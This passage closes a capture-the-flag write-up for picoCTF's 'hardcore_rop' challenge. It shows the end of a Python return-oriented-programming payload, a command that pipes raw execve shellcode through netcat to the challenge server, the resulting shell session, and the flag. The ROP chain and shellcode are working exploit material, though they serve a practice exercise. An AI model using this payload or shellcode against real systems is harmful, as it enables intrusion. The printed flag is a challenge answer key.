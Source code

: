 ```python
payload += p(7)
# length in ecx, needs to be multiple of 2
payload += p(BASE + popecx)
payload += p(0x1000)
# call syscall int 0x80
payload += p(BASE + int80h)

# eax = syscall_read
payload += p(BASE + popeax)
payload += p(3)
# ecx = ptr to BASE
payload += p(BASE + popecx)
payload += p(BASE)
# ebx = fd = stdin
payload += p(BASE + popebx)
payload += p(0)
# edx = size of shellcode (set to 100)
payload += p(BASE + popedx)
payload += p(100)
# call syscall int 0x80
payload += p(BASE + int80h)

# return to 0xf000000
payload += p(BASE + popedx + 1)
payload += p(BASE)

print payload
time.sleep(3)
```

Now, this was used with [a slightly modified shellcode](http://shell-storm.org/shellcode/files/shellcode-547.php). This shellcode uses `execve` to run `/bin/ash`; I changed it to run `/bin//sh`. The shellcode has to be supplied seperately on the command line; I could not get the exploit to work if the shellcode was printed from `ropsploit.py`. The following landed us a shell on the remote server (again, using `cat` to keep the shell alive):

```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ (python ropsploit.py; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'; cat) | nc vuln2014.picoctf.com 4000
yo, what's up?
ROP time!
ls -al
total 24
drwxr-xr-x    2 root     root          4096 Oct 28 17:55 .
drwxr-xr-x    3 root     root          4096 Oct  5 17:33 ..
-rw-r--r--    1 root     root            21 Oct  5 17:44 flag
-rwxr-xr-x    1 root     root         11266 Oct  6 01:13 hardcore_rop
cat flag
hard_as_PIE_amirite?
```

And there's the flag! A very fun challenge!
